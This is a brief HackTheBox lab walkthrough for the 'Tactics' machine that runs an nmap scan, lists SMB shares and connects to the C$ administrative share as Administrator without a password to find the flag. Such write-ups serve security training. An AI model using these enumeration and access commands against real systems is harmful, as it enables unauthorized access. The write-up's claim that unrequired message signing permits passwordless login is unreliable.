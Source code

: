 ```yaml
---
title: Tactics - A HackTheBox machine
author: amandaguglieri
TableOfContents: true
draft: fase
tags:
  - walkthrough
  - windows
  - smb
  - 445
---
```


# Tactics - A HackTheBox machine


```bash
nmap -sC -A 10.129.228.98  -Pn -p-
```

Results:

```
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -5s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 7476/tcp): CLEAN (Timeout)
|   Check 2 (port 63095/tcp): CLEAN (Timeout)
|   Check 3 (port 16465/udp): CLEAN (Timeout)
|   Check 4 (port 43695/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-05-02T10:26:04
|_  start_date: N/A

```

Interesting part here is 

```
smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

```

This will allow us to use smbclient share enumeration withouth the need of providing a password when signing into the shared folder. For that we will use a well known user in Windows: Administrator.

```bash
smbclient -L 10.129.228.98 -U Administrator
```

Results:

```
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC

```

```bash
smbclient \\\\10.129.228.98\\C$ -U Administrator
```


Flag is located at: 

```
\Users\Administrator\Desktop\>flag.txt 
```


